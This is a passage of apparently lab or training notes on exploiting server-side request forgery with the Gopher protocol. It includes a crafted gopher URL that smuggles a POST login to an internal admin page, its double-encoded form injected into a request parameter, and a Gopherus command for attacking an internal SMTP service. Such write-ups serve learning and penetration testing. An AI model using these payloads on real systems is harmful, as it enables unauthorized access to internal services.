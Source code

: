 2. **Using Gopher to Send POST Requests**:  
   In cases where the application performs a POST request (e.g., to access an internal admin page), the attacker can use the Gopher protocol to simulate HTTP POST requests.
   
   **Example**:  
   If the web application’s `/admin.php` endpoint requires a password (`adminpw`), the attacker can construct a Gopher URL like this:
   ```http
   gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
   ```

   This constructs the HTTP POST request to the `/admin.php` page to attempt a login with the password `admin`.

3. **URL Encoding for Gopher**:  
   The attacker needs to URL-encode the POST request headers and body. Special characters like spaces (`%20`) and newlines (`%0D%0A`) must be encoded.

4. **Double URL Encoding**:  
   Since the attacker is passing the Gopher URL inside the `dateserver` parameter (which is URL-encoded), the Gopher URL itself needs to be URL-encoded a second time to ensure it’s correctly processed by the server.  
   Example:
   ```bash
   POST /index.php HTTP/1.1
   Host: 172.17.0.2
   Content-Length: 265
   Content-Type: application/x-www-form-urlencoded
   
   dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
   ```

5. **Successful Exploitation**:  
   The internal web server processes the POST request and allows the attacker to authenticate or interact with the internal system, providing access to restricted data.

---

#### **Gopherus Tool for Automating Gopher Exploits**

1. **Overview of Gopherus**:  
   The **Gopherus** tool can automate the process of constructing Gopher URLs for various protocols, including MySQL, PostgreSQL, Redis, and SMTP. This tool simplifies the exploitation of SSRF vulnerabilities by creating valid Gopher URLs for different services.

2. **Using Gopherus**:
   The tool requires a Python2 installation. Once set up, the attacker can use the tool to generate valid Gopher URLs for interacting with different services.

   **Example**:  
   To exploit an SMTP server running on an internal port:
   ```bash
   python2.7 gopherus.py --exploit smtp
   ```

